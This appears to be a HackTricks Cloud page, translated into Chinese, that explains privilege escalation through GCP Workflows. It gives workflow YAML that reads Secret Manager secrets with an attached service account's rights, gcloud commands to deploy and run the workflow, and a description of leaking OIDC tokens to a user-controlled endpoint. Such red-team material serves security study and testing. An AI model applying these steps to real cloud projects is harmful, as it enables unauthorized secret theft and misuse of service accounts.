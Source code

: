 # GCP - Workflows Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Workflows

基本信息：

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

据我所知，无法通过访问包含与工作流关联的服务账户凭据的元数据端点来获取 shell。然而，可以通过在工作流中添加要执行的操作来滥用服务账户的权限。

可以找到连接器的文档。例如，这是 [**Secretmanager 连接器的页面**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**。** 在侧边栏中可以找到其他几个连接器。

在这里，您可以找到一个打印秘密的连接器示例：
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
从CLI更新：
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
如果您收到类似 `ERROR: (gcloud.workflows.deploy) FAILED_PRECONDITION: Workflows service agent does not exist` 的错误，请**等待一分钟再试**。

如果您没有网络访问权限，可以通过以下方式触发并查看工作流的执行： 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
您还可以检查先前执行的输出以查找敏感信息
{% endhint %}

请注意，即使您收到类似 `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` 的错误，因为您没有该权限，工作流仍然已生成。

### 泄露 OIDC 令牌（和 OAuth？）

根据 [**文档**](https://cloud.google.com/workflows/docs/authenticate-from-workflow)，可以使用工作流步骤发送带有 OAuth 或 OIDC 令牌的 HTTP 请求。然而，就像在 [Cloud Scheduler](gcp-cloudscheduler-privesc.md) 的情况下，带有 Oauth 令牌的 HTTP 请求必须发送到主机 `.googleapis.com`。

{% hint style="danger" %}
因此，**通过指示用户控制的 HTTP 端点泄露 OIDC 令牌是可能的**，但要泄露 **OAuth** 令牌，您需要 **绕过** 该保护。然而，您仍然可以使用连接器或带有 OAuth 令牌的 HTTP 请求 **联系任何 GCP API 以代表 SA 执行操作**。
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

使用此权限而不是 `workflows.workflows.create`，可以更新已存在的工作流并执行相同的攻击。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
